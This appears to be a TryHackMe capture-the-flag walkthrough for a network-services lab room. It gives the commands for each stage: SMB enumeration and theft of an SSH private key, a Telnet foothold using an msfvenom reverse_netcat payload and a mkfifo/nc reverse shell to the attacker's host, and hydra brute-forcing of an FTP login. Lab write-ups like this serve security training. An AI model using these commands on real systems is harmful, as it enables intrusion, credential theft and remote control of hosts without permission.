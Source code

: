 <!-- TOC -->

- [Network Services](#network-services)
    - [SMB](#smb)
    - [Telnet](#telnet)
    - [FTP](#ftp)

<!-- /TOC -->

# Network Services

[Network Services Room](https://tryhackme.com/room/networkservices)

Learn about, then enumerate and exploit a variety of network services and misconfigurations.

## SMB

| Title | IP Address |
| :---- | :---- |
| polosmb3 | `1*.**.***.***` |

RHOST:

```bash
enum4linux -a 1*.**.***.***
smbclient //1*.**.***.***/<share> -U ""
more "Working From Home Information.txt"
cd .ssh
get id_rsa
```

LHOST:

```bash
mv id_rsa cactus_id_rsa
chmod 600 cactus_id_rsa
ssh -i cactus_id_rsa cactus@1*.**.***.***
```

> `THM{***_**_***_**?}`

## Telnet

| Title | IP Address |
| :---- | :---- |
| POLOTELNET | 10.10.183.2 |

LHOST:

```bash
sudo nmap -p- -sC -sV -T4 10.10.183.2
telnet 10.10.183.2 8012
sudo tcpdump ip proto \\icmp -i tun0
```

RHOST:

```bash
.RUN ping 10.13.43.157 -c 1
```

LHOST:

```bash
msfvenom -p cmd/unix/reverse_netcat lhost=10.13.43.157 lport=80
sudo nc -lvnp 80
```

RHOST:

```bash
.RUN mkfifo /tmp/ctwbwm; nc 10.13.43.157 80 0</tmp/ctwbwm | /bin/sh >/tmp/ctwbwm 2>&1; rm /tmp/ctwbwm
```

> `THM{***_***_***_******_****}`

## FTP

| Title | IP Address |
| :---- | :---- |
| ftpfinal | 10.10.184.164 |

LHOST:

```bash
sudo nmap -sV -sC -T4 -Pn 10.10.184.164
ftp 10.10.184.164
```

RHOST:

```bash
ls
more PUBLIC_NOTICE.txt
```

LHOST:

Using mike:password

```bash
hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt -vV 10.10.184.164 ftp
ftp 10.10.184.164
```

> `THM{***_***_***_***_****}`
